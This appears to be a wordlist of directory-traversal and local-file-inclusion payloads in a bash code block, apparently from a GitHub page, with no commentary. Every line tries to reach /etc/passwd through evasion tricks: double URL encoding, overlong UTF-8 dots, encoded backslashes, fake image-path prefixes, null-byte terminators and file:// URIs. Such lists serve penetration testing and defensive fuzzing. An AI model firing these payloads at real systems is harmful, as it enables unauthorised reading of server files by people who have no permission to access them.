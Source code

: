 ```bash
..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
/%5C../%5C../etc/passwd
/%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
/images/../../../etc/passwd
/images/../../../../etc/passwd
/images/../../../../../etc/passwd
/images/../../../../../../etc/passwd
/images/../../../../../../../etc/passwd
/images/../../../../../../../../etc/passwd
/var/www/images/../../../etc/passwd
/var/www/images/../../../../etc/passwd
/var/www/images/../../../../../etc/passwd
/var/www/images/../../../../../../etc/passwd
/var/www/images/../../../../../../../etc/passwd
/var/www/images/../../../../../../../../etc/passwd
/etc/passwd%00
../etc/passwd%00
../../etc/passwd%00
../../../etc/passwd%00
../../../../etc/passwd%00
../../../../../etc/passwd%00
../../../../../../etc/passwd%00
../../../../../../../etc/passwd%00
../../../../../../../../etc/passwd%00
../../../../../../../../../etc/passwd%00
../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../etc/passwd%00
../../../../../../../../../../../../../../../etc/passwd%00
file:///etc/passwd%00
file://../etc/passwd%00
```